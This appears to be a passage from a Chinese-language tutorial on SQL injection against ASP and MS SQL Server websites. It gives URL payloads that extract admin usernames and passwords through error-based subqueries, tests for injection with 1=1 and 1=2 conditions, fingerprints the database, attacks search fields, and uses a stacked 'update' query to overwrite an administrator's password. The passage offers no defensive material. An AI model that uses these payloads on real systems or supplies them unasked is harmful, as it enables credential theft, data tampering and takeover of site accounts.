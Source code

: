 上述语句暴出D99_REG表中的第二个列名为Data

![image.png](https://upload-images.jianshu.io/upload_images/7216746-a717597d18baba68.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 暴出数据库中的数据

语句为：and (select top 1 列名 from 表名 where id=N) > 1 其中N代表第N条数据。

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 username from admin where id=1) > 1
```

上述语句可以猜解出admin表中username的第一条数据。

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 password from admin where id=1) > 1
```

上述语句可以猜解出admin表中password的第一条数据。

## 若URL中的参数是字符

### 判断是否存在注入漏洞

```
http://www.xxx.com/xxx.asp?action=value' and 1=1
http://www.xxx.com/xxx.asp?action=value' and 1=2
```

### 判断当前的数据库类型

```
http://www.xxx.com/xxx.asp?action=value' and user > 0
```

## 搜索型注入

注入代码：
```
要搜索的关键字%'  and  注入攻击代码
```

判断注入漏洞(假设搜索关键字为a)：
```
a' and 1=1
a' and 1=2
```

## 利用SQL注入修改数据库中的数据

### 修改管理员密码

语句为： ;update 表名 set 列名='内容' where 条件

```
将admin表中的username为wzh的密码改为123
http://www.xxx.com/xxx.asp?id=xx;update admin set password='123' where username='wzh'
```
